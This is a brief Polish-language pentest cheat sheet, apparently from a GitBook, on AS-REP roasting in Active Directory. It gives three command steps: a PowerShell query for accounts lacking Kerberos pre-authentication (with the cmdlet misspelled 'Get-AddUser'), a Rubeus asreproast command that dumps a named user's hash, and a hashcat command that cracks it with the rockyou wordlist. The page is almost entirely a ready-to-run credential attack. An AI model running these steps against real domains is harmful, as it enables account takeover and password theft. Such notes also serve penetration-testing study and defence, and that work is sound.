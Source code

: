 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Rubeus

**Win**

{% code overflow="wrap" %}
```python
Get-AddUser -Filter * -Properties DoesNotRequirePreAuth | ? {$_.DoesNotRequirePreAuth -eq "True"}
```
{% endcode %}

uruchamiamy Rubeusa

```
.\Rubeus.exe asreproast /user:minniem /format:hashcat /outfile:asrep.hash
```

**Kali**

zapisujemy hash do pliku asrep\_hash

crackujemy w hashcat po sparwdzeniu typu hasha

```
hashcat -m 18200 asrep_hash /usr/share/wordlists/rockyou.txt
```

